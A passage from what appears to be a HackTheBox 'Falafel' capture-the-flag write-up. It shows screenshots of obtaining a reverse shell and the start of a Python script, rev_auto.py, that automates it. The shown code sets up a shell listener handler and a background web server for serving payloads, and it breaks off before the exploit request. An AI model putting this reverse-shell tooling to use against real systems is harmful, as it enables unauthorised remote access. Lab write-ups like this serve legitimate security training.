 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-27-HackTheBox-Falafel/2021-09-27-HackTheBox-Falafel%2001:51:03.png)

And we have reverse shell

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-27-HackTheBox-Falafel/2021-09-27-HackTheBox-Falafel%2001:55:50.png)

So, now, let's automate the reverse shell

# Auto Reverse Shell

We made a auto reverse shell to train our python skills

Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-27-HackTheBox-Falafel/2021-09-27-HackTheBox-Falafel%2002:42:49.png)

rev_auto.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Reverse Shell - Falafel - HackTheBox

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler
import re
import urllib.parse
import os

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()
    
# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
```
